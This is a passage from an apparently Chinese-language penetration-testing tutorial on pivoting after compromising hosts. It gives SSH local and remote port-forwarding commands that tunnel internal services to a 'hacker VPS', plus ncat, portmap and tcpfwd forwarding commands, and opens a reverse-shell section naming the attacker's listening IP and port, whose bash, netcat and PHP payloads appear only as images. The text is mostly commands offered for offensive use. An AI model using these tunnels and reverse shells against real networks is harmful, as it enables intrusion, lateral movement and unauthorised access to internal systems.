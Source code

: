 **场景 b：**如果控制 A、B 机器，A 能够访问 B，且能出网，B 能够访问 C，但不能出网，A 不能访问 C

A 机器执行：  

ssh -CNfg -L 2121:CIP:21 root@BIP  

输入 BIP 机器密码，访问 A 机器的 2121 端口即是访问 CIP 的 21 端口。  

**场景 c：**控制 A 机器，A 能够访问 B

A 机器执行：

ssh -CNfg -R 2121:BIP:21 root@hackervps  

输入黑客 VPS 密码，访问黑客 VPS 的 2121 端口即是访问 BIP 的 21 端口。

**3.2 nc/ncat**

服务端执行监听命令：

ncat --sh-exec "ncat 127.0.0.1 22" -l 80 --keep-open  

客户端连接服务端的 80 端口即可 SSH 连接：

SSH root@serverip -p 80  

**3.3 portmap**

服务端执行：

portmap -m 1 -p1 80 -h2 127.0.0.1 -p2 22  

客户端连接服务端的 80 端口即可 SSH 连接：

SSH root@serverip -p 80  

**3.4 portfw**

服务端执行：

tcpfwd 0.0.0.0:443 127.0.0.1:22  

客户端连接服务端的 443 端口即可 SSH 连接：

SSH root@serverip -p 443

_**反弹 shell**_

Linux 上也存在一些自带命令 / 工具，来进行反弹 shell 得到一个 (非) 交互式 shell。

下述命令中的 yourip 为攻击者监听的 ip；yourport 为攻击者监听的端口。

**4.1 bash**

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7W5RuGgTB5T9uUCl83fPf3jo2f6WZqxgArpJtDnAde21Rtf15jh99krg/640?wx_fmt=png)

**4.2 netcat**

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7W5fM21zlFwMzKXOxqDwsJNAQWibiasNbXl4lsJgYibgU6JAAKiapUDeFslQ/640?wx_fmt=png)

**4.3 php**

![](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP446VYObiaWsjaGxEmiaFYC7W8oG7YafzcpVlHfibToCL9xSxuib3oibjnGnDhhicDIPknmJXp8E0tFPDXg/640?wx_fmt=png)

